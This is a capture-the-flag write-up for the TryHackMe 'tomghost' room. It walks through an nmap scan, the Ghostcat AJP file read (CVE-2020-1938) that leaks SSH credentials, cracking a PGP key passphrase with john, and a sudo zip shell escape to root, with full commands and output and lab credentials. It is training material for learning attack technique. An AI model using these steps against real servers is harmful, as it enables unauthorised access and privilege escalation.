 # [tomghost - Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.](https://tryhackme.com/r/room/tomghost)

![logo](https://tryhackme-images.s3.amazonaws.com/room-icons/016dea7c96e8b422241016405b571c8b.jpeg)


## Enumeration

### Nmap

```
kali@kali:~/CTFs$ nmap -sC -sV -Pn $TARGETIP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 11:42 EDT
Nmap scan report for <TARGETIP>
Host is up (0.038s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.20 seconds
```

- Apache Tomcat and Apache Jserv are accessible

**Apache Jserv** is a packet-oriented, binary protocol, which can proxy inbound requests from a web server through to an application server. In other words, it allows the communication between a standalone web server and Tomcat. It should not be exposed to the public, since it can be used to gather sensitive information.

## Exploiting Apache Jserv

[CVE-2020-1938 - 'Ghostcat'](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)

The CVE is about a file read/inclusion vulnerability in the AJP connector in Apache Tomcat. Given the default config, the vulnerability is enabled by default on the default port 8009. An attacker can use this to remotely read web application files without having to authorize and
retrieve files anywhere in the web application, as long as the location is reachable via `ServletContext.getResourceAsStream()`, including directories such as **WEB-INF** and **META-INF**, which may provide sensitive data like login information.

To exploit our target, there is a script provided within the `metasploit`-framework. By reading */WEB-INF/web.xml*, we get the following result:
```
[*] Running module against <TARGETIP>
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
- skyfuck:8730281lkjlkjdqlksalks seem to be credentials -> we can use them to establish an SSH-connection (`ssh skyfuck@<TARGETIP>`)

### Investigating skyf*ck's home-directory
Essentially, there are two important files
- tryhackme.asc - .asc files are used for secure communication -> it most likely includes the private key to decrypt the credential.pgp file
- credential.pgp - an encrypted file

1. Getting files over
```
scp skyfuck@<TARGETIP>:tryhackme.asc .
```
```
scp skyfuck@<TARGETIP>:credential.pgp .
```

2. Cracking tryhackme.asc using `john`
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg2john tryhackme.asc > tryhackme.hash

File tryhackme.asc
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ john -wordlist:/usr/share/wordlists/rockyou.txt tryhackme.hash
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)     
1g 0:00:00:00 DONE (2024-05-22 13:14) 11.11g/s 11933p/s 11933c/s 11933C/s theresa..trisha
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ 
```
3. Decrypt credential.pgp with **alexandru** as secretkey 
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg --import tryhackme.asc             
```
```
kali@kali:~/CTFs/tomghost/files_from_sky$ gpg credential.pgp        
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ ls
credential  credential.pgp  tryhackme.asc  tryhackme.hash
                                                                                                                      
kali@kali:~/CTFs/tomghost/files_from_sky$ cat credential     
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j   
```

## User-flag
We can now establish an SSH-connection as the user **merlin** and gather the user-flag.
```
merlin@ubuntu:~$ cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXX}
merlin@ubuntu:~$ 
```

## Root-flag
```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ 
```
- /usr/bin/zip can be executed as root without a password via sudo -> privilege escalation
- [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# 
rm: missing operand
Try 'rm --help' for more information.
# cat /root/root.txt
XXX{XXXXXXXXXXX}
# 
```
